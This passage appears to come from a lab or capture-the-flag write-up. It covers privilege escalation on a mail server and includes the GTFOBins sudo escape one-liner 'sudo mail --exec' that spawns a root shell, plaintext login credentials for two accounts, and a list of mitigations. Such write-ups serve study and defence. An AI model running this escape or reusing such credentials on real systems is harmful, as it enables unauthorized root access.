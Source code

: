 ## Privilege Escalation

Checking sudo privileges I see:

![image.png](image%2019.png)

[GTFOBins-SUDO-mail](https://gtfobins.github.io/gtfobins/mail/#sudo)

```bash
sudo mail --exec='!/bin/sh'
```

![image.png](image%2020.png)

## Credentials

```bash
sales : sales #POP3, IMAP
brian.moore : EternaLSunshinE #POP3, IMAP, SSH
```

## Mitigation

- Disable verbose SMTP responses or implement tarpitting to mitigate user enumeration.
- Use strong, unique passwords; implement account lockout mechanisms.
- Restrict mail-related group memberships and validate access control policies.
- Monitor and restrict sudo permissions, especially for mail utilities.
- Regularly audit and harden mail server configurations (Postfix, Dovecot, etc.).
